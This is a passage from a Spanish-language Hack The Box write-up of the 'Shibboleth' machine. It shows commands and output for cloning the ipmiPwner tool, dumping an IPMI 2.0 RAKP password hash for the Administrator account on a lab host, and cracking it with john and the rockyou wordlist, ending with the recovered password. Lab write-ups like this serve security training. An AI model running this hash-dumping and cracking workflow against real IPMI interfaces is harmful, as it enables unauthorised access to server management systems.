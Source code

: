 ```console
p3ntest1ng:~$ sudo apt update && sudo apt install ipmitool
```

Para agilizar el proceso, he buscado en Google un exploit ya desarrollado que automatice esta parte:

![exploit](/assets/images/hackthebox/machines/shibboleth/exploit.png)

Clonamos el repositorio en nuestra máquina y ejecutamos la herramienta:

```console
p3ntest1ng:~$ git clone https://github.com/c0rnf13ld/ipmiPwner
Clonando en 'ipmiPwner'...
remote: Enumerating objects: 34, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (13/13), done.
remote: Total 34 (delta 14), reused 27 (delta 14), pack-reused 7
Recibiendo objetos: 100% (34/34), 16.79 KiB | 781.00 KiB/s, listo.
Resolviendo deltas: 100% (14/14), listo.
```

Instalamos los requisitos necesarios para la herramienta con ayuda del script que viene incluído **`requirements.sh`**

```console
p3ntest1ng:~$ cd ipmiPwner && sudo ./requirements.sh
```

Y una vez finalice ya podemos utilizar la herramienta, siguiendo la ayuda ejecutamos tal que así:

```console
p3ntest1ng:~$ sudo python3 ipmipwner.py --host 10.10.11.124 -c john -oH hash -pW /usr/share/wordlists/rockyou.txt
[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] Saving hash for user: Administrator in file: "hash"
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a0822b00008e7cfd7387a9898c956341dee3a91dee89ab5adf605bf7dda40edaae45dc0709a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$cee947cb97cc31372da0ac3fe395bc6a3759576c
[*] Starting the hash cracking with john

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (10.10.11.124 Administrator)
```
